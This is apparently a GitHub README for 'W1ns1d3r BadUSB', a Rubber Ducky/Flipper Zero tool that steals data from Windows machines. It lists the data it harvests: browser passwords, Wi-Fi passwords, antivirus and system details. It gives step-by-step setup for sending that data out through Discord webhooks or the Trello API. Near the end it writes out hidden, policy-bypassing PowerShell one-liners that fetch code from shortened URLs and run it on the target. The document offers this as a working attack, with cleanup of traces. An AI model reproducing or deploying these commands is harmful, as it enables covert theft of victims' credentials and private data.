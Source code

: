 # W1ns1d3r BadUSB

## Description

This project is a BadUSB mix of some rubber ducky scripts.

- **Version:** [1.0]
- **Average Time :** 
  - W1ns1d3r_f4st_Tr3ll0 : 3 Secs
  - W1ns1d3r_st4gg3d_Tr3ll0 : 30 secs
- **Target:** Windows 10/11 (7/8 not tested)
- **Supported Layout keyboard:** US/FR/DE
- **Author:** [b1g_ph4rm4](https://github.com/Gvte-Kali/BadStuffHosting)


______________________________________________________________________________________________

 888      d888                             888          d8888                            d8888  
 888     d8888                             888         d8P888                           d8P888  
 888       888                             888        d8P 888                          d8P 888  
 88888b.   888   .d88b.           88888b.  88888b.   d8P  888  888d888 88888b.d88b.   d8P  888  
 888 "88b  888  d88P"88b          888 "88b 888 "88b d88   888  888P"   888 "888 "88b d88   888  
 888  888  888  888  888          888  888 888  888 8888888888 888     888  888  888 8888888888 
 888 d88P  888  Y88b 888          888 d88P 888  888       888  888     888  888  888       888  
 88888P" 8888888 "Y88888 88888888 88888P"  888  888       888  888     888  888  888       888  
                     888          888                                                           
                Y8b d88P          888                                                           
                 "Y88P"           888                                                           
 ______________________________________________________________________________________________*
  
- **Credits:**
  - [![blobs0](https://img.shields.io/badge/blobs0-Ultimate%20Flipper%20Grabber-brightgreen)](https://github.com/blobs0/Ultimate-Flipper-Grabber)
  - [![I-am-jakoby](https://img.shields.io/badge/I--am--jakoby-Discord%20Webhooks%20Functions-blue)](https://github.com/I-am-jakoby)
  - [![UNCOV3R3D](https://img.shields.io/badge/UNCOV3R3D-Statut-orange)](https://github.com/UNC0V3R3D)
  - 7h30th3r0n3
  - moosehadley

## Features 

**W1ns1d3r_st4gg3d_Tr3ll0:** 
- The informations the script pulls :
    - Stage 1 :
        - Web browser passwords
    - Stage 2 :
        - Antivirus software and version
        - User informations
        - System informations
        - Wifi passwords
- Post everything in your discord webhook
- Notes : The program works on the C:\temp directory and deletes it when the files are uploaded.
  
**W1ns1d3r_F4st_Tr3ll0** 
- Don't get the administrative privileges on target.
- Sets the working directory to C:\temp.
- The informations the script pulls :
    - Stage 2 :
        - Antivirus software and version
        - Hardware informations
        - System informations
        - Wifi passwords
- Post everything in your discord webhook
- Notes : The program works on the C:\temp directory and deletes it when the files are uploaded.
  
## How to use
- To get the Trello API working with your scripts, you'll need to get some configuration before using it : 
  - **The ID of the list you want to post into --> Step 1.6**
  - **An API Key --> Step 1.4.3**
  - **A Token --> Step 1.4.5**
- **Setup Guide :**
  - 1 - Creating account and setup informations
    - 1.1 - Create an account on this link : https://id.atlassian.com/login?application=trello
    - 1.2 - Go to your boards, this url should look like this : https://trello.com/u/yourusername/boards
    - 1.3 - Create a board
    - 1.4 - Go on https://trello.com/power-ups/admin and create a new power-up.
      - 1.4.1 - On creation, the only useful thing is to locate it into the worksapce where your board was created ( should only be one workspace if it's a new account ).
      - 1.4.2 - Go to your newly created Power-UP. Now go to API Key and click the "generate API Key".
      - 1.4.3 - **!! VERY IMPORTANT !!** You need to note somewhere the API Key. 
      - 1.4.4 - **!! VERY IMPORTANT !!**  On the API Key page, click on the token button, and authorize Trello to use your account.
      - 1.4.5 - **!! VERY IMPORTANT !!** You need to note the token, should look like *ATTAxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx*.
      - 1.4.6 - Go to your Power-UP *Capabilities* menu and make sure that it gets every authorization.
    - 1.5 - Go on the board you created, the url should look like this : "https://trello.com/b/xxxxxxx/name_of_your_board"
    - 1.6 - Use the idlist script : 
      - 1.6.1 - For linux users, go for the idlist.sh
      - 1.6.2 - For windows users, go for the idlist.ps1
  - 2 - Once you have the idlist, the API key and the token, you need to modify the script or the [.txt] file
    - 2.1 - Modifying the script, you need to add this into it ( Upload-Trello function ): 
      - $idList = "THE_ID_LIST"
      - $key = "YOUR_API_KEY_FROM"
      - $token = "YOUR_TOKEN_FROM"
    - 2.2 - Modifying the [.txt] file : 
      - *powershell -w h -NoP -Ep Bypass $token='';$key='';$idList='';irm https://shorturl.at/wBFLV | iex* **for W1ns1d3r_f4st_Tr3ll0** ( line 23 )
      - *powershell -w h -NoP -Ep Bypass $token='';$key='';$idList='';irm https://shorturl.at/gpvF5 | iex* **for W1ns1d3r_st4gg3d_Tr3ll0** ( line 53 )
    - 3 - Put the modified [.txt] file into your Rubber Ducky or Flipper Zero
    - 4 - Enjoy !

# Releases

- **Version [1.0]** - *10/02/2024*
